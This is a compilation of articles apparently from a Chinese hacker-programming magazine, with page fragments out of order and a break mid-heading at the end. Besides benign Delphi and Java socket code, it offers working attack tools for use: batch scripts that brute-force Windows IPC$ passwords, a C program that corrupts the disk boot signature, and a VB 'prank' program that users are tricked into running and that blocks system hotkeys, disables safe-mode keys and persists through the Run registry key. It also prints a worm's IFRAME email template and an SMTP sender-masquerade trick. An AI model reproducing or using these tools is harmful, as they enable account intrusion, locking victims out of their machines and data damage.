  // 获得 SE_SHUTDOWN_NAME 的 LUID
  if not LookupPrivilegeValue(nil, SE_SHUTDOWN_NAME,
    tp.Privileges[0].Luid) then
    ShowMessage(SysErrorMessage(GetLastError));
  // 激活特权
  tp.PrivilegeCount := 1;
  tp.Privileges[0].Attributes := SE_PRIVILEGE_ENABLED;
  AdjustTokenPrivileges(hToken, False, tp, 0,
    PTokenPrivileges(nil),
    PDWORD(nil));
  ShowMessage(SysErrorMessage(GetLastError));
  // 重启
  if not ExitWindowsEx(EWX_REBOOT, 0) then
    ShowMessage(SysErrorMessage(GetLastError));
end;
```

谁知道测试的时候 AdjustTokenPrivileges 总是报告没有取得要求的特权，因为一时之间找不到原因，而软件又急着交货，所以就取消了重启的功能。前几天，有朋友向我问起了如何使用 Delphi 在 2000 下实现重启，于是又心痒痒地找出这段代码，决心研究一番。

由于在这段 Delphi 代码中实在找不出什么问题，于是我干脆做一个 C++ 的版本，在 BCB5 下测试，居然重启成功了！真是越来越奇怪了。测试来测试去，Delphi 版本代码中 AdjustTokenPrivileges 函数就是无法获得特权。SDK 中提到 AdjustTokenPrivileges 只能激活处于未激活状态的特权（Privilege），而无法向进程的令牌（Token）中添加新的特权。难道 Delphi 编译的程序和 BCB 编译的会有不同的特权吗？不可能啊！但也只能试一下了，编写一段代码获得当前的特权列表：

```
procedure TForm1.Button1Click(Sender: TObject);
var hToken: THandle;
    tp: PTokenPrivileges;
    i: DWORD;
begin
  if not OpenProcessToken(GetCurrentProcess,
    TOKEN_ADJUST_PRIVILEGES or
    TOKEN_QUERY, hToken) then
    ShowMessage(SysErrorMessage(GetLastError));

  // 分配内存，用于存放特权信息
  GetMem(tp, 256);
  // 获得特权列表
  if not GetTokenInformation(hToken, TokenPrivileges, tp,
    256, i) then
  begin
    ShowMessage(SysErrorMessage(GetLastError));
    FreeMem(tp);
  end;
```

测试之下，发现 GetTokenInformation 函数成功返回，但 tp 里面的内容却全乱套了。从以前的经验看，应该是边界对齐的问题，难道 Delphi 4 自带的 windows.pas 的定义有错误？通过 BCB 测试，SizeOf(TOKEN_PRIVILEGES) 的值是 16，而在 Delphi 4 测试下，SizeOf(TTokenPrivileges) 的值是 24。看来的问题就是这个了。以下是 windows.pas 中的定义：

```
type
  _LUID_AND_ATTRIBUTES = record
    Luid: TLargeInteger;
    Attributes: DWORD;
  end;
  TLuidAndAttributes = _LUID_AND_ATTRIBUTES;

  _TOKEN_PRIVILEGES = record
    PrivilegeCount: DWORD;
    Privileges: array[0..0] of TLuidAndAttributes;
  end;
  TTokenPrivileges = _TOKEN_PRIVILEGES;
```

在 Delphi 中，记录（record）是自动按照字（Word）、双字（Double Word）或四字（Quad Word）对齐的。由于 TLuidAndAttributes 中最大成员是 Luid（类型为 TLargeInteger，占一个 Quad Word 长度），因此该记录是按照四字对齐的，而 TTokenPrivileges 因为包含了 TLuidAndAttributes，受其影响，也变成了按照四字对齐。这样一来，便与 winnt.h 中的定义有出入了。于是，在 record 前加上 packed 关键字，取消对齐，测试终于成功了。那么关机功能呢？那还不简单，把 ExitWindowsEx 的第一个参数改为 EWX_SHUTDOWN 就可以了，还可以使用 EWX_SHUTDOWN or EWX_FORCE 强力关机，不过这样一来，其它程序还没来得及保存数据就会被关闭了。

细想之下，Delphi 4 的这个问题应该是挺严重的，重启在编写软件中比较常用，Borland 应该不可能对这个问题置之不理。于是打开 Delphi 6，查看 windows.pas，果然，定义已经改正过来了：

```
type
  _LUID_AND_ATTRIBUTES = packed record
    Luid: TLargeInteger;
    Attributes: DWORD;
  end;
  TLuidAndAttributes = _LUID_AND_ATTRIBUTES;
```

## 诺顿实现引导扇区备份与硬盘加锁

姚晨旭

在前几期的《黑客X档案》中阅读了关于保护硬盘分区表和给硬盘加锁的两篇文章，硬盘数据的宝贵性和分区表的重要性不用我多说，大家都应该知道。有不少朋友的硬盘由于病毒破坏了分区表而使硬盘的数据完全丢失。我的一个朋友在上网时就遇到了这种情况，或是说你的电脑里有很重要的材料，你就更应该把硬盘加把锁了。但这两篇文章的作者是用汇编写的程序，大部分读者可能达不到用汇编的水平，但多少有点 C 语言基础的朋友肯定比懂汇编的朋友多，下面我们就用 C 语言来实现硬盘加锁、解锁和分区表的备份与恢复。

下面先介绍一些要用到的知识和实现的原理：

给硬盘加锁的方法有很多，但改变引导扇区或分区表中关键字是最简单的，引导扇区位于 0 柱 0 面 1 扇区，它的结构如下：

| 偏移 | 内容 |
|---|---|
| 000H | 主引导记录（240字节） |
| 0F0H | 206字节全为0 |
| 1BEH | 第一分区表（16字节） |
| 1CEH | 第二分区表（16字节） |
| …… | 略…… |
|  | 55H AAH |

其中主引导扇区的最后两个字节是 55H、AAH，它是硬盘自举的有效标志。这次我们是通过改变这两个标记使硬盘不能使用，以达到加锁的目的。大家也可以改变其它的标记，这样就算别人会编写此程序，也不知道你改的是哪个标记，这样安全性比较高。

下面再介绍一个最重要的函数 biosdisk()，它调用中断 0x13 来完成 BIOS 级的磁盘操作。这些操作忽略磁盘文件的逻辑结构，直接对物理磁道进行操作，使用时一定要注意。该函数参数表为：

biosdisk(int cmd, int drive, int head, int track, int sector, int nsects, void *buf)

参数 cmd 为 2 时表示进行读操作，为 3 时表示进行写操作；drive 参数用来指示读写的目标驱动器，0 为软驱 A，1 为软驱 B，0x80 为第一个硬盘，0x81 为第二个硬盘；head、track、sector 等参数用来决定在磁盘上读写的物理位置。

注：该函数如果成功返回值为 00。

程序如下：

```
#include <bios.h>
#include <stdio.h>
#include <conio.h>
main()
{
    int result; /* 用于存放biosdisk()函数的返回值 */
    char buffer[512],s;
    char buffer1[512];
    FILE * fp;
    /* 每执行完一次操作用goto loop返回此处让用户再选择其它的操作 */

loop:
    biosdisk(2,0x80,0,0,1,1,buffer);
    do{
        clrscr();
        gotoxy(30,8); /* gotoxy()用于将光标移动到指定的位置 */
        printf("备份分区表请按B");
        gotoxy(30,10);
        printf("恢复分区表请按R");
        gotoxy(30,12);
        printf("锁硬盘请按L");
        gotoxy(30,14);
        printf("解锁请按U");
        gotoxy(30,16);
        printf("退出请按Q");
        gotoxy(30,18);
        printf("输入英文后按回车:");
        scanf("%c",&s);
    }while(s!='q'&&s!='Q'&&s!='l'&&s!='L'&&s!='u'&&s!='U'&&s!='r'&&s!='R'&&s!='b'&&s!='B');
    /* 此处的条件语句的作用是使输入的按键不正确时，返回重新输入 */
    if(s=='b'||s=='B')
    {
        result=biosdisk(2,0x80,0,0,1,1,buffer1);
        gotoxy(35,25);
        if(!result){
            if((fp=fopen("a:\\part.bak","wb"))!=NULL)
            /* fopen()函数在A盘上建立一个文件并保存分区表 */
            {
                printf("备份成功");
                fwrite(buffer1,1,512,fp);
                /* fwrite()函数把buffer1中的数据写入A盘中的part.bak文件 */
                fclose(fp);
                getch(); /* 所有的getch()函数用于暂停信息的显示 */
            }
        }
        else
        {
            printf("备份失败");
            getch();
        }
        goto loop;
    }

    if(s=='R'||s=='r')
    {
        fp=fopen("a:\\part.bak","rb");
        fread(buffer1,1,512,fp);
        result=biosdisk(3,0x80,0,0,1,1,buffer1);
        gotoxy(35,25);
        if(!result)
        {
            printf("恢复成功");
        }
```

## 黑客编程

```c
getch();
}
else
{
    printf("恢复失败!");
    getch();
}
goto loop;
}
if(s=='l'||s=='L')
{
    buffer[510]=0x0;
    buffer[511]=0x0;
    result=biosdisk(3,0x80,0,0,1,1,buffer);
    gotoxy(35,25);
    if(!result)
    {
        printf("锁硬盘完成!");
        getch();
    }
    else
    {
        printf("锁硬盘失败!");
        getch();
    }
    goto loop;
}
if(s=='u'||s=='U')
{
    buffer[510]=0x55;
    buffer[511]=0xAA;
    result=biosdisk(3,0x80,0,0,1,1,buffer);
    gotoxy(35,25);
    if(!result)
    {
        printf("解锁完成!");
        getch();
    }
    else
    {
        printf("解锁硬盘失败!");
        getch();
    }
    goto loop;
}

if(s=='q'||s=='Q')
{
    exit(0);
}
}
```

程序到此结束，不过读者也可以在程序中加一个口令验证的语句，就算是别人拿了你的程序，他不知道口令也是没有用的。此程序是在 TC 下完成的，如果手头上没有，可以到华军软件下载，只要在搜索里输入 Turbo C 就可以了。还剩最后一部工作，先做一张启动盘（Dos 或 Win9x 都可以），然后把程序编译成可执行文件拷贝保存到一张软盘上，这样就可以用它来备份、还原分区表、锁硬盘、解锁硬盘了。

ypy

几天前在安全焦点上看见一篇帖子，“173 字节的 nt_server 弱口令扫描器”，内容如下：

```bat
批处理文件 test.bat

@echo off
echo 格式: test *.*.* >test.txt
for /L %%G in (1 1 254) do echo %1.%%G >>test.txt
& net use \\%1.%%G\ipc$ "" /user:"Administrator" | find "命令成功完成" >>test.txt
```

这个批处理文件的功能是对你指定的一个 C 类网段中的 254 个 IP 依次尝试建立账号为 administrator、口令为空的 ipc$ 连接，如果成功就把结果记录在 test.txt 文本中。短短 173 字节，就实现了弱口令扫描的功能！

惊叹及敬佩太原思维之独到，并感慨吾辈菜鸟何日能成正果之时，不禁也有所悟：Win2k 命令行命令也可以用来远程破解 NT 弱口令！

我们知道，在 Win2k 命令行下有个 FOR 命令，其功能是对一组文件中的每一个文件执行某个特定命令，也就是可以用你指定的循环范围生成一系列命令。

```bat
For 命令的格式为：
for %variable IN (set) DO command [command-parameters]
```

当然，FOR 命令最强大的功能，表现在它的一些高级应用中。譬如可以用 /r 参数遍历整个目录树；可以用 /f 参数将文本文件内容作为循环范围；可以用 /f 参数将某一命令执行结果作为循环范围等等。在这里我不一一说明其用法，如果你不熟悉 FOR 命令，可以参考相关资料教程。

FOR 命令应用最简单的例子，就是人工指定循环范围，然后对每个值执行指定的命令。如果我们把密码作为循环值，把 net use 命令作为指定的命令，那将会产生什么样的效果呢？请看下面的命令：

```bat
for /L %i in (100,1,999) do net use \\ip\ipc$ "%i" /user:"username"
```

解释一下：username 是你用 nbtstat 命令探测得到的用户名，这条命令的功能是对指定 username 进行 3 位数纯数字密码依次尝试建立 ipc 连接，直到建立成功或者数字全部试完。如果你的网速够快的话，跑完这 900 个数字也需要很长时间。

也许你想到了，如果对方密码不是纯数字怎么办？有办法！我们还可以用字典，上面不是提到了可以用 /f 参数将文本文件内容作为循环范围吗？

```bat
for /f %i in (pass.txt) do net use \\ip\ipc$ "%i" /user:"username"
```

pass.txt 是字典文件，其格式为一个密码占一行。例如：

```text
123
1234
12345
abc
abcd
```

这条命令的功能是对指定账号 username 用密码字典 pass.txt 中的密码依次尝试建立 ipc 连接，直到建立成功或者密码全部试完。

可问题还是有，虽然这样我们碰巧是能连接成功，可我们仍然不知道密码啊，下次要用还得重新全部试过。我们应该想办法把尝试成功的用户名和密码保存在指定文件才行啊！

以下是我实验后的结果，也许不是什么好方法，但是完全可以实现对指定 IP 扫描并且把结果保存在指定文件。

由于我们现在要实现的功能不可能一句命令所能完成的，所以我们把所有命令写成批处理文件。

先提醒一下，在批处理文件中使用 FOR 命令时，指定变量使用 %%variable，而不是 %variable，并且变量名区分大小写。

将下面内容存为 scan.bat：

```bat
@echo off
echo ---------->>%4
echo Written By ypy >>%4
echo Email: ypy_811@eyou.com >>%4
echo ---------->>%4
date /t >>%4
time /t >>%4
echo. >>%4
echo Result >>%4
start "scan" /min cmd /c for /f %%i in (%2) do call ipc.bat %1 %%i %3 %4
exit
```

将下面内容存为 ipc.bat：

```bat
net use \\%1\ipc$ %2 /user:"%3"
goto result%ERRORLEVEL%
:result0
echo Remote Server: %1 >>%4
echo Username: %3 >>%4
echo Password: %2 >>%4
echo ----- >>%4
net use \\%1\ipc$ /del
exit
:result2
```

ipc.bat 中的 %ERRORLEVEL% 表示取前一命令执行后的返回结果。net use 命令成功完成返回 0，失败返回 2。

将 scan.bat 和 ipc.bat 存放于 system32 目录中，用法如下：

```text
scan.bat 主机 密码字典文件 用户名 结果存放文件
例如：scan.bat 192.168.35.17 d:\pass.txt administrator d:\result.txt
```

密码破解出来之后，存于 d:\result.txt 里面。

我稍微解释一下扫描的原理，就是对帐号 administrator 用密码字典 pass.txt 中的密码依次尝试建立 ipc 连接，如果成功，则记录密码；不成功则试下一个密码。

可是细心的你肯定又发现问题了，这样只能指定用户名啊？如果我用 nbtstat 探测到了十几个用户，就需要打十几遍命令？

既然我们可以从指定文件中循环取密码，那我们也可以从另一指定文件中循环取用户名啊，让我们再来修改一下：

将下面内容存为 scan.bat：

```bat
@echo off
echo ---------->>%4
echo Written By ypy >>%4
echo Email: ypy_811@eyou.com >>%4
echo ---------->>%4
date /t >>%4
time /t >>%4
echo Result >>%4
echo ----- >>%4
start "scan" /min cmd /c for /f %%i in (%3) do call pass.bat %1 %2 %%i %4
exit
```

将下面内容存为 pass.bat：

```bat
start "scan" /min cmd /c for /f %%i in (%2) do call ipc.bat %1 %%i %3 %4
```

将下面内容存为 ipc.bat：

```bat
net use \\%1\ipc$ %2 /user:"%3"
goto result%ERRORLEVEL%
:result0
echo Remote Server: %1 >>%4
echo Username: %3 >>%4
echo Password: %2 >>%4
echo ----- >>%4
net use \\%1\ipc$ /del
exit
:result2
```

将 scan.bat、pass.bat 和 ipc.bat 存放于 system32 目录中，用法如下：

```text
scan.bat 主机 密码字典文件 用户字典文件 结果存放文件
例如：scan.bat 192.168.35.17 d:\pass.txt d:\user.txt d:\result.txt
```

其中用户字典文件 user.txt 的内容是用 nbtstat 探测到的所有用户名，其格式和密码字典文件一样，一个字符串占一行。例如：

```text
administrator
admin
ypy
```

这样扫描的原理是对用户字典 user.txt 中的每一个用户，同时用密码字典 pass.txt 中的密码依次尝试建立 ipc 连接，如果成功则记录用户名和密码，如果不成功就试下一个密码。

现在是不是有点对 user.txt 中的用户采用“跑”功能 ipc 获得密码的味道啊？呵呵。我朋友这个简单弱口令扫描器挂了一个 xkey 做的字典，扫一台有八个用户的 Win2k server，还真扫出了两个密码！而且速度很快！

好了，在 Win2k 命令行下简单做弱口令扫描器的方法就先介绍到这里。可能还有许多种更简单的方法能实现相同的功能；你可以去尝试一下。

事实上，当微软从 Win2k 开始将命令行增强后，借鉴了相当多 Unix 的优点，虽然还不至于像 Unix 那么灵活，但可以实现的功能已相当之多。

写本文是希望起到介绍抛砖引玉的效果，所以没有牵强更多功能。对此扫描器给出几点说明：

- 1. 不能对指定网段扫描。
- 2. 此扫描原理是用账号和密码循环建立 ipc 连接，因此如果对方没开 139 端口或者删除了 ipc$ 共享，那就不能工作了。
- 3. 扫描方式是用户名字典中的用户名同时挂密码字典跑 ipc，由于不允许一个用户使用一个以上用户名与一台服务器或者共享资源多重连接，导致有的帐号密码本应该正确的，可返回的结果为失败，因此有时候会漏报。
- 4. 但是如果你的字典中帐号和密码至少有一对正确的话，那至少能记录一对正确结果。
- 5. 文中所有例子在 Win2k Server 和 Win XP 上通过测试。

## 用 VB 编写密码控制的功能性程序

莉娟

用黑软或其它恶作剧软件和朋友开个无伤大雅的小玩笑，会使生活多一些乐趣，但使用那些常见的软件时会被杀毒防黑软件发现。如果能自己编一个程序，然后用 E-mail 发送给你的朋友，再用甜言蜜语、糖衣炮弹、威逼利诱、铺设“陷阱”等手段使其运行此程序，则其必然中招！如若他不知道解法，更可借此要挟其请你吃德克士、麦当劳或韩国烧烤若干，而无奈中的他必然会被狠狠宰，于是……哈哈！

我们要编制的程序将实现如下功能：通过在 VB 中调用 API 来修改注册表，让程序每次启动都会执行，运用 shell 函数、操作文本文件、屏蔽系统功能和热键，做出一个能够修改系统的程序（当然只是和你的朋友开个玩笑），并且用事件 KeyPress 接收密码，只有密码正确才能关闭此程序。下面我们就开始动手行动！

```vb
模块中声明：
Public Declare Function RegCreateKey Lib "advapi32.dll" _
Alias "RegCreateKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long

' 创建子键
Public Declare Function RegSetValueEx Lib "advapi32.dll" _
Alias "RegSetValueExA" (ByVal hKey As Long, ByVal lpValueName As String, ByVal Reserved As Long, ByVal dwType As Long, lpData As Any, ByVal cbData As Long) As Long

' 创建键值
Public Declare Function SystemParametersInfo Lib "user32" _
Alias "SystemParametersInfoA" (ByVal uAction As Long, ByVal uParam As Long, ByRef lpvParam As Any, ByVal fuWinIni As Long) As Long

' 调用 API 阻挡功能键
Public Declare Function GetExitCodeProcess Lib "kernel32" _
(ByVal hProcess As Long, lpExitCode As Long) As Long
Public Declare Function OpenProcess Lib "kernel32" _
(ByVal dwDesiredAccess As Long, ByVal bInheritHandle As Long, ByVal dwProcessId As Long) As Long

' 调用 API 控制 shell 进程
窗体代码如下：
Dim a(3) As Integer
Const SPI_SCREENSAVERRUNNING = 97
Const PROCESS_QUERY_INFORMATION = &H400
Const STILL_ACTIVE = &H103
Dim hProcess As Long
Dim pad As Long
Dim code As Long
Const HKEY_LOCAL_MACHINE = &H80000002
Const regkey = "software\microsoft\windows\currentversion\run"
Const keyvalue = "run.exe"
Dim retvalue As Long
Dim keyid As Long
Private Sub Form_Load()
```

```vb
' API 调用阻挡 “Ctrl+Alt+Del”、“Ctrl+Esc”、“Alt+Tab” 热键
SystemParametersInfo SPI_SCREENSAVERRUNNING, True, ByVal 1&, 0

' 因为 shell 的异步执行，外部程序还未完成任务，VB 便往下执行，会造成文件访问错误，调用 API 函数 OpenProcess 和 GetExitCodeProcess 解决问题，去掉 MSDOS.SYS 文件的只读、隐藏属性
pad = Shell("attrib -h -s -r c:\msdos.sys /s", vbHide)
hProcess = OpenProcess(PROCESS_QUERY_INFORMATION, False, pad)
Do
    GetExitCodeProcess hProcess, code
    DoEvents
Loop While code = STILL_ACTIVE

' 修改 MSDOS.SYS，给其中添加 BOOTKEYS=0，让启动时功能键 F5、F8、Ctrl、Shift 失效，用户不能进入安全模式修改
Open "c:\msdos.sys" For Append As #1
Print #1, "bootkeys=0"
Close #1
Shell "attrib +h +s +r c:\msdos.sys /s", vbHide
End Sub

' 修改注册表，在 “Software\Microsoft\Windows\CurrentVersion\Run” 下创建字符串值 RUN，值为 “RUN.EXE”，让每次启动都会执行
retvalue = RegCreateKey(HKEY_LOCAL_MACHINE, regkey, keyid)
retvalue = RegSetValueEx(keyid, "run", 0&, 1, ByVal keyvalue, Len(keyvalue) + 1)

' 接收密码的 ASCII 码值，密码为 joke
Private Sub Form_KeyPress(KeyAscii As Integer)
    a(3) = a(2)
    a(2) = a(1)
    a(1) = a(0)
    a(0) = KeyAscii
    If a(0) = 101 And a(1) = 107 And a(2) = 111 And a(3) = 106 Then
        End
    End If
End Sub

' 在窗体退出时使三组热键失效
Private Sub Form_QueryUnload(Cancel As Integer, UnloadMode As Integer)
    SystemParametersInfo SPI_SCREENSAVERRUNNING, False, ByVal 1&, 0
End Sub
```

以上程序编译为 RUN.EXE，在 VB6 中调试通过。你可以自行在窗体中加入文本框，并且把窗体属性 BorderStyle 改为 0-None，WindowState 改为 2-Maximized，就做出了一个关不掉的程序，并且每次启动都会执行。

## 使用 Java 实现端口扫描程序

KillingAngel

Java 语言是时下最流行的网络编程语言，随着 Internet 的飞速发展，网络安全也越来越重要。在网上我们可以找到很多端口扫描的软件，但对软件的使用也只能让我们做一个 script kiddie 而已。有点钻研精神的朋友自然会想：“我是不是也应该知道端口扫描的原理和程序实现方法呢？”正好在这次的《开发工具》课程设计时老师出了个使用 Socket 开发网络程序的题目，现在把我做的这个作业拿出来，大家给评评分：）。

大家知道，Java 是一种面向对象的编程语言，编程过程中我们可以使用 JDK 提供的现成类来进行开发，JDK 中对网络的支持提供了现成的类 java.net.Socket，用于执行基于 TCP 协议的操作。Socket 类在创建 Socket 对象的同时会尝试连接该套接字到远程主机上，如果失败则抛出相应的异常，我们就可以通过捕获的异常类型来判断对方端口是否开放。

对该程序的一些解释：程序通过输入的参数来得到主机名（或 IP）和要扫描的端口号，如果没有输入参数，则显示版本信息并退出；如果只输入了主机名而没有输入端口号，则对“常规端口”进行扫描，“常规端口”的设置可以通过更改数组的内容来实现。程序中没有高深的算法和复杂的操作，适合像我一样菜鸟级的朋友参考。

该程序在 Windows 98 和 JDK 1.3 环境下编译通过。

```java
import java.net.*;
import java.io.*;
public class ps
{
    public static void main(String [] args)
    {
        String hostname=""; // 初始化主机名为空
        int hostlength; // 定义主机名的长度
        int [] port={80}; // 定义常用端口数组端口号
        // 下面的循环功能是从输入参数中得到主机名：
        for(hostlength=0;hostlength<args.length;hostlength++)
        {
            if(args[hostlength]!="")
            {
                hostname+=args[hostlength];
            }
            break;
        }
        // 到这里得到主机名
        // 如果主机名为空，则显示版本信息和程序使用方法信息
        if(hostname=="")
        {
            System.out.println("Ps: Port Scanning V1.0 \n");
            System.out.println("Author: KillingAngel \n");
            System.out.println("CM> java ps hostname port \n");
            System.exit(0);
        }
    }
```

```java
// 下面的循环判断用户是否输入了端口号，如果输入了则保存在字符串中：
if(hostlength<args.length-1)
{
    String StrPort="";
    int IntPort=0;
    for(int m=hostlength+1;m<args.length;m++)
    {
        StrPort+=args[m];
    }
    // 至此得到端口号（若用户输入了端口号）
    Integer integer=new Integer(StrPort);
    IntPort=integer.intValue(); // 将端口号从字符串转换成整型。
    try
    {
        // 尝试建立远程主机的连接字
        Socket socket=new Socket(hostname,IntPort);
        // 若成功则显示请求主机的请求端口开放
        System.out.println("The host "+hostname+" port "+IntPort+" is opened!");
    }
    catch(UnknownHostException e)
    {
        // 根据得到的不同异常来给出相应的提示
        System.err.println(e);
    }
    catch(IOException e)
    {
        System.out.println("The host "+hostname+" port "+IntPort+" is NOT opened!");
    }
}
// 如果没有给出端口号信息，则对数组中的“常规端口”进行扫描，如图 2 所示。
```

## 锻烧绕过SMTP服务器的身份验证

洪峰

```java
else
{
    for(int m=0; m<port.length; m++)
    {
        try
        {
            Socket socket = new Socket(hostname, port[m]);
            System.out.println("The host " + hostname + " port " + port[m] + " is opened!");
        }
        catch(UnknownHostException e)
        {
            // 如果连接失败，则根据得到的异常给出相应的提示，如图3所示。
            System.err.println(e);
            break;
        }
        catch(IOException e)
        {
            System.out.println("The host " + hostname + " port " + port[m] + " is NOT opened!");
        }
    }
}
}
```

其实作为一个SCJP（SUN认证JAVA程序员），我并不认为JAVA在做端口扫描之类的程序上有什么优势。相反，由于字符串的执行需要虚拟机的支持以及JAVA一贯的低效率，反而没有应有的效果（扫描嘛，效率最重要了）。不过这个小东西的价值在于告诉大家，其实做程序也不是老鸟的专利！

希望能和大家交朋友，我的E-mail地址是：tsingien@163.net

由于技术和安全问题，现在大部分的虚拟主机服务商都采用JMAIL组件提供ASP脚本发送邮件的服务，其发送代码如下：

```asp
Set JMail=Server.CreateObject("JMail.SMTPMail")
JMail.ServerAddress="SMTP服务器地址"
JMail.Sender="发送者邮件地址"
JMail.Subject="邮件主题"
JMail.AddRecipient="接收者邮件地址"
JMail.Body="邮件正文"
JMail.Priority=1
JMail.Execute
```

设置后的SMTP服务器需要进行身份验证，例如SMTP.21cn.com服务器，只允许发送邮件地址是xxx@21cn.com的邮件，所以不能实现所有邮件自由发送。

于是，笔者想了一个办法：设法骗过SMTP服务器。编写的ASP发送代码如下：

```asp
Set JMail=Server.CreateObject("JMail.SMTPMail")
JMail.ServerAddress="SMTP.21cn.com"
JMail.Sender="mymail@21cn.com"
JMail.Subject="邮件主题"
JMail.AddRecipient="接收者邮件地址"
JMail.Body="此封邮件的发送地址是：" & "真实的发送者邮件地址" & vbCrLf & "如果回复此邮件，请发往：" & "真实的发送者邮件地址" & vbCrLf & "邮件正文"
JMail.Priority=1
JMail.Execute
```

这样每次发送邮件，SMTP.21cn.com服务器都以为是mymail@21cn.com发送的邮件，所以能够顺利通过验证。当收件方收到邮件后，在邮件正文第一行就出现了“此邮件的发送地址是：（真实的发送地址），如果回复此邮件，请发往：（真实的邮件地址）”这样的文字。

```text
Content-Type: text/html; Content-Transfer-Encoding: quoted-printable.
<html><HEAD></HEAD><body bgColor=3D#ffffff>
<iframe src=3Dcid:THE-CID height=3D0 width=3D0></iframe>
</body></html>

--#BOUNDARY#
MIME-Version: 1.0
Content-Type: audio/x-wav; name="p.exe"
Content-Transfer-Encoding: base64
Content-id: THE-CID
```

你知道最近闹得风风雨雨的是“中国黑客病毒”吗？如果你还不知道那就和我一起来看它个究竟吧。该病毒的名称是Win32.RunOuce.6703，一旦该病毒进入你的计算机，就会利用IE安全系统的IFRAME漏洞进行攻击。该病毒的类型是蠕虫，传播速度比较快，是通过Email来传播，并且可生成受染文件。

中毒现象：当病毒运行后，会将自身拷贝到`%System%`目录下取名为RunOuce.exe（注：`%System%`是可变的，该病毒会自动查找Windows系统目录，缺省情况下是`C:\Windows\System`）并将自身拷贝到那里。同时病毒还会更改你的注册表，更改的情况是这样的：病毒先在注册表项`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`下添加：`RunOuce %System%\RunOuce.exe`，这样做的目的就是使中毒机器启动系统时病毒就会自动运行，真是够毒的。

同时再感染后缀为EXE和SCR的PE可执行文件，病毒代码中还带有部分调试信息，如INT3等等。有一点更加可怕的是病毒还会通过电子邮件传播到其他的用户去感染更多的用户，继续它的破坏。该病毒会搜索Windows地址簿的邮件地址，然后将自己作为邮件的附件向这些邮件地址发送。邮件的主题是“Hi,i am %s”，%s是中毒者的计算机名字，附件名为P.EXE，邮件源地址（From: XXX@hotmail.com）。如果在未打升级补丁的Outlook或Outlook Express中打开病毒邮件，邮件附件会自动运行。

邮件的内容一般如下所示：Chinese Hacker，枪毙李洪志、去他妈的法轮功、反对邪教、崇尚科学、打倒本拉登、向英雄王伟致意、反对霸权主义、社会主义好等等，内容还是很健康的，往往一般认为很健康向上的内容，就包含着病毒啊！

```text
病毒的邮件模板：
HELO btamail.net.cn
MAIL FROM: iloveyou@btamail.net.cn
RCPT TO: %s
DATA
FROM: %s@hotmail.com
TO: %s
SUBJECT: Hi,i am %s
MIME-Version: 1.0
Content-type: multipart/mixed;
boundary="#BOUNDARY#"

--#BOUNDARY#
```

病毒预防：为什么我们能感染病毒呢？那是因为我们没有一些安全意识吗？那倒不是，下面就找个人查杀病毒的一些经验，希望能给你一些帮助。

- 关掉并且移除不需要的服务。这一点非常重要，有一些病毒就是利用一些服务所存在的一些漏洞，进行攻击。
- 把补丁升级到最新，如IIS和IE，现在我们都经常看到微软的IE浏览器存在一些漏洞，而且很多病毒就是利用这样前漏洞进行攻击。
- 在平时使用电脑时，要启动你的杀毒软件，实时地对你的系统进行监控。
- 当然你也可以利用下面的方法来解决。解决该缺陷的Outlook升级补丁可在如下地址下载：http://www.microsoft.com/technet/security/bulletin/MS01-020.asp 。

删除方法：

- 在大多数的情况下，我们是利用杀毒软件来删除病毒。首先要对你的杀毒软件进行了升级以后，通过查找即可删除。
- 利用专门的杀“中国黑客”的工具进行删除，可到金山毒霸的网站去下载一个删除工具，下载的地址是：http://www.iduba.net/download/other/Duba_RunOuce.htm。然后直接运行该软件，随后在如右图的对话框中，选择扫描内存和自动清除等选项，并点击“查找”按钮。这时软件会自动地对你的系统进行检查，一旦发现病毒，在如图的对话框中会显示病毒的位置。而且病毒是自动地被删除，不用我们手动去删除。

## Wininit.ini 文件与 Windows 病毒

用过Windows 9x的人都见过如下的提示信息：

Please wait while Setup updates your configuration files.  
This may take a few minutes.....

这是安装完某个软件或者硬件的驱动程序，应安装程序的要求重新启动Windows后的正常现象，但我们不会把它与病毒联系起来。本文将用事实告诉你，如果你的机器启动时无缘无故地出现上述信息，就要赶紧去找最新的杀毒软件了！

这时Windows在干什么呢？实际上它在执行Wininit.ini给出的指令，Wininit.ini是一个鲜为人知的文件，主要用于删除、更名和更新在Windows运行时不能被施以这些操作的文件，它存在的时间很短，所以显得有点神秘。

### 一、Wininit 文件工作概况

explorer.exe，而在Windows的GDI（图形设备接口）界面下，有一些文件一直处于这种状态下。除explorer.exe外，还有显示驱动程序库文件、文件子系统库文件等。如果我们要对这些文件进行升级、改动，就必须在Windows保护模式核心启动前进行。于是Windows就提供了基于Wininit.ini文件的一个机制来完成这个任务，这个机制是，要删除或改写这类文件的应用程序按一定格式把命令写入Wininit.ini，Windows在重启时，将在Windows目录下搜索Wininit.ini文件，如果找到，就按照该文件指令删除、改名、更新文件；完成任务后，将删除Wininit.ini文件本身，继续启动过程。所以Wininit.ini文件中的指令只会被执行一次，列目录时也通常没有它的踪影。

Windows 95 Resource Kit提到Wininit.ini文件有三个可能的段，但只叙述了“rename”段的用法，虽然名为“rename”，却可以实现删除、改名、更新文件的功能。其格式为：

```ini
[rename]
......
filename1=filename2
......
```

行“filename1=filename2”相当于依次执行“copy filename2 filename1”和“del filename2”这两个DOS命令。

启动时，Windows将用filename2覆盖filename1，再删除filename2，这就实现了“用filename2更新filename1”的目的。如果filename1不存在，实际结果是将filename2改名为filename1；如果要删除文件，可令filename1为nul，例如：

```ini
[rename]
......
nul=filename2
......
```

将删除filename2。

以上文件名都必须包含完整路径，注意：由于Wininit.ini文件的处理是在Windows文件系统调入前，所以不支持长文件名。

Wininit.ini的应用很多，除了经常在软硬件的安装程序中用到外，还可以在软硬件的卸载程序中用到。

比如：假设你要为自己作一个卸载程序，这个卸载程序本身是不可能被自己删除的，因为它试图删除自身时，自身却正在运行。为了清除卸载程序本身，你就得借助于Wininit.ini文件。顺便提一句，在安装Windows的最后阶段，就是利用Wininit.ini文件来清除和更名安装程序SETUP自身使用的文件。

### 二、该技术在新的Windows病毒中流行

微机操作平台已经成了从DOS平台到Windows平台转移，不幸的是，大量出现的Windows 9x病毒标志着病毒也同样完成了这个转移。

Windows病毒在感染文件时，也碰到了这样一个问题：某些文件，因为系统正在使用，所以不能被改写和感染。早期的Windows病毒如CIH病毒采用VXD技术来解决这个问题，这易造成系统不稳定，后期的病毒大多采用Windows提供的标准方法——Wininit.ini文件来解决这个问题，比如以下几种新出现的Windows病毒。

#### 1、Win32.Kriz

